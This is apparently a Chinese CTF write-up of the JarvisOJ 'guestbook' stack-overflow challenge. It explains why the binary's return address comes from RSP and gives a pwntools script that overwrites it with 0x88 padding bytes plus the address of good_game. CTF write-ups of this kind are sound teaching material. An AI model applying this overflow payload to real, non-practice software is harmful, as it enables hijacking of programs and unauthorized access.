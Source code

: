 ```yaml
---
title: guestbook
date: 2019-07-23
categories:
- javrisoj
tags: stack RSP
---
```


**<font style = 'font-size:25px'>RSP和返回地址的关系</font>**

# 漏洞

- 栈溢出

- 不同的是
    ![process](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_AaQ2l.png)
    ![gdb](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_4KViN.thumb.700_0.png)
    这里使用的是`RSP`指向位置的内容作为返回地址
# 原因

- 看他的汇编   
    ![armasm](https://c-ssl.duitang.com/uploads/item/201907/23/20190723215016_trrVX.thumb.700_0.png)   
    在`main`函数开始的时候，并没有像正常流程那样
    ```armasm
    push    rbp
    mov     rbp, rsp
    ```
    而且不止是main函数，所有二进制文件的函数都没有这一步。    
    这个题应该是所有数据都根据`RSP`寻址。

# exp

```python
from  pwn import * 

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./guestbook')
#sh = remote('pwn.jarvisoj.com', 9876)
elf = ELF('./guestbook')
addr = elf.symbols['good_game']

gdb.attach(sh)
payload = 'A' * 0x88  + p64(addr)
sh.sendlineafter('\n',payload)

sh.interactive()
sh.close()
```